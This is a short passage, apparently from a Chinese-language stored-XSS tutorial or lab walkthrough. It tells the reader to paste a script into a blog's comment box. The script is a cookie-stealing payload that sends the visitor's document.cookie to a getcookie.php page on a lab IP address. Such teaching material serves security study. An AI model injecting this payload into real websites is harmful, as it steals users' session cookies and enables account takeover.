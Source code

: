 ![entry-pxss](../imgs/wm_244.png)

然后我们将这样一段 javascript 代码放入 blog 的输入框中：

```
<SCRIPT>document.location='http://192.168.122.101/getcookie.php?remote_cookie='+document.cookie</SCRIPT>
```
